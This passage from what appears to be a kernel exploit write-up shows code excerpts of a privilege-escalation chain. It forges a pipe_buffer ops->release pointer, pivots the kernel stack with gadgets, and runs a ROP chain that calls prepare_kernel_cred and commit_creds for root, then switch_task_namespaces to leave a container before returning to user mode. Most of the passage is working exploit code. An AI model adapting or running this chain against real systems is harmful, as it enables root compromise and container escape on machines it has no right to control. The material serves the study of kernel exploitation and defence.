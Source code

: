 Then, if we close the pipefd with `close` syscall,  it will trigger RIP control through `ops->release` function pointer and initiate the execution of our ROP payload.

- [exploit/extra-refined/exploit.c#L99](../exploit/extra-refined/exploit.c#L99)
```c
// push rsi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_cg_1_offset;
// pop rsp ; ret
uintptr_t pivot_gadget_cg_2_offset;
```
- [exploit/extra-refined/exploit.c#L976](../exploit/extra-refined/exploit.c#L976)
```c
uintptr_t pipe_buffer_addr = small_msg_msg_addr + 0x400;
*(uintptr_t *)(buf_ptr) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;        // page
*(uintptr_t *)(buf_ptr + 8) = pipe_buffer_addr + 0x50;                                // offset / len
*(uintptr_t *)(buf_ptr + 0x10) = pipe_buffer_addr + 0x18;                             // ops
*(uintptr_t *)(buf_ptr + 0x20) = curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide; // ops->release

*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;
```
For fake `ops` and stack pivot, we use the current chunk's address as `ops` and store pivot gadgets' address as a fake function. Since the current chunk address is passed by `rsi` register, we used the above pivot gadgets to pivot the kernel stack to the current chunk.

- [exploit/extra-refined/exploit.c#L984](../exploit/extra-refined/exploit.c#L984)
```c
// ...and write the ROP payload
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0x50);
int idx = 0;
// rax = prepare_kernel_cred(&init_task);
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_task_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->prepare_kernel_cred_offset + kaslr_slide;

// commit_creds(rax);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->commit_creds_offset + kaslr_slide;

// rax = find_task_by_vpid(1)
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->find_task_by_vpid_offset + kaslr_slide;

// switch_task_namespaces(rax, &init_namespace);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_nsproxy_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->switch_task_namespaces_offset + kaslr_slide;

// End the ROP and return to user mode
gadget_start[idx++] = curr_gadget->ret2user_gadget_offset + kaslr_slide;
gadget_start[idx++] = 0;
gadget_start[idx++] = 0;
save_state();
// for prevent xmm segfault on usermode
rsp &= ~0xf;
rsp += 8;
gadget_start[idx++] = post_exploit;
gadget_start[idx++] = cs;
```